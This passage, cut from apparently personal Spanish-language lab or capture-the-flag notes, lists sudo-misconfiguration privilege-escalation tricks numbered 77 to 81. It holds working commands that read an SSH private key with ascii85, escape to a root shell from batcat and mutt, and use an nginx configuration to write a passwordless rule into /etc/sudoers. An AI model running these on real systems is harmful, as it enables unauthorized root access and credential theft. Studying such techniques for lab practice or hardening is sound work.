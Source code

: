 y listo somos root


77.-	/usr/bin/ascii85

Me permite leer archivos, como por ejemplo id_rsa

(ALL) NOPASSWD: /usr/bin/ascii85

LFILE=/home/lenam/.ssh/id_rsa

sudo ascii85 "$LFILE" | ascii85 --decode

78.-	/usr/bin/batcat

(beavis) NOPASSWD: /usr/bin/batcat

sudo -u beavis /usr/bin/batcat --paging always /etc/profile

escriimos

!/bin/sh

79.-	/usr/bin/su

(root) PASSWD: /usr/bin/su

sudo su

listo somos root !!!

80.-	/usr/bin/mutt

(root) NOPASSWD: /usr/bin/mutt

ejecutamos:

sudo /usr/bin/mutt

nos aparece una pantalla y presionamos shift + ! y en la parte dónde dice command shell escibimos /bin/bash luego enter

listo somos root !!!

81.-	/usr/sbin/nginx

(root) NOPASSWD: /usr/sbin/nginx

- Creamos el archivo exploit.conf en tmp

exploit.conf:

user root;
worker_processes auto;
error_log /tmp/error.log;

events {
    worker_connections 768;
}

http {
    log_format exploit 'TU_USUARIO ALL=(ALL) NOPASSWD: ALL';  # Reemplaza TU_USUARIO
    access_log /etc/sudoers exploit;  # Apunta al archivo sudoers
